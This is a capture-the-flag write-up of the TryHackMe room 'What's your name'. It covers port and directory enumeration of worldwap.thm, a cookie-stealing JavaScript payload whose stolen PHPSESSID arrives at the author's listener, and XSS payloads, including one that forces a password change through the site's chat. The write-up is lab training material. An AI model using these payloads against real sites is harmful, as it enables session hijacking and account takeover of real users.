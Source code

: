 What's your name (Tryhackme)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/62a7685ca6e7ce005d3f3afe-1718463471016" alt="TryHackMe Room Icon" width="150"/>
Utilise your client-side exploitation skills to take control of a web app.

# Enumeration

## Nmap

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8081/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## SSH (22)

- Password authen is enable.

```bash
root@ip-10-10-177-188:~# ssh root@worldwap.thm
The authenticity of host 'worldwap.thm (10.10.212.193)' can't be established.
ECDSA key fingerprint is SHA256:lxthyLGSYAX2dtxPWVAhzHwn3iOtpwjL2Enj4NLpF7Q.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'worldwap.thm,10.10.212.193' (ECDSA) to the list of known hosts.
root@worldwap.thm's password: 
```

## HTTP(80)

### Dirsearch

```bash
[16:04:22] 301 -  310B  - /api  ->  http://worldwap.thm/api/
[16:04:22] 200 -    0B  - /api/
[16:04:43] 301 -  317B  - /javascript  ->  http://worldwap.thm/javascript/
[16:04:47] 200 -    0B  - /logs.txt
[16:04:57] 301 -  317B  - /phpmyadmin  ->  http://worldwap.thm/phpmyadmin/
[16:04:59] 200 -    3KB - /phpmyadmin/doc/html/index.html
[16:05:01] 200 -    3KB - /phpmyadmin/index.php
[16:05:01] 200 -    3KB - /phpmyadmin/
[16:05:02] 301 -  313B  - /public  ->  http://worldwap.thm/public/
[16:05:03] 200 -  490B  - /public/
```

### Vhost

- Nothing is interesting

### Website Features

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(1).png?raw=true)

```bash
http://login.worldwap.thm/
```

### Dirsearch ( http://login.worldwap.thm/ )

```bash
[16:33:38] 301 -  330B  - /__pycache__  ->  http://login.worldwap.thm/__pycache__/
[16:33:40] 200 -    5KB - /admin.py
[16:33:47] 200 -  639B  - /assets/
[16:33:47] 301 -  325B  - /assets  ->  http://login.worldwap.thm/assets/
[16:33:51] 302 -    0B  - /chat.php  ->  login.php
[16:33:55] 200 -    0B  - /db.php
[16:34:04] 301 -  329B  - /javascript  ->  http://login.worldwap.thm/javascript/
[16:34:06] 200 -  960B  - /login.php
[16:34:06] 302 -    0B  - /logout.php  ->  login.php
[16:34:06] 200 -    0B  - /logs.txt
[16:34:13] 301 -  329B  - /phpmyadmin  ->  http://login.worldwap.thm/phpmyadmin/
[16:34:14] 200 -    3KB - /phpmyadmin/doc/html/index.html
[16:34:14] 200 -    3KB - /phpmyadmin/
[16:34:14] 200 -    3KB - /phpmyadmin/index.php
[16:34:16] 302 -    0B  - /profile.php  ->  login.php
[16:34:19] 403 -  283B  - /server-status
[16:34:19] 403 -  283B  - /server-status/
[16:34:20] 200 -   96B  - /setup.php

```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(3).png?raw=true)

- use javascript payload to collect cookie

```bash
root@ip-10-10-177-188:~# python3.9 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.212.193 - - [15/May/2025 16:28:03] "GET /?cookie=PHPSESSID=n0rl3obdguracs47ajh032h276 HTTP/1.1" 200 -
10.10.212.193 - - [15/May/2025 16:28:03] "GET /?cookie1=UEhQU0VTU0lEPW4wcmwzb2JkZ3VyYWNzNDdhamgwMzJoMjc2 HTTP/1.1" 200 -
                                                        (PHPSESSID=n0rl3obdguracs47ajh032h276)
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(4).png?raw=true)

### 

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(5).png?raw=true)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(6).png?raw=true)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(7).png?raw=true)

- XXS

```bash
<script>alert(document.cookie)</script>
```

```bash
<script>fetch('change_password.php',{method:'POST',headers:{'Content-Type':'application/x-wwwform-urlencoded'},body:"new_password=newPass"});</script>
```

- use this script  in the chat

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(8).png?raw=true)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(9).png?raw=true)
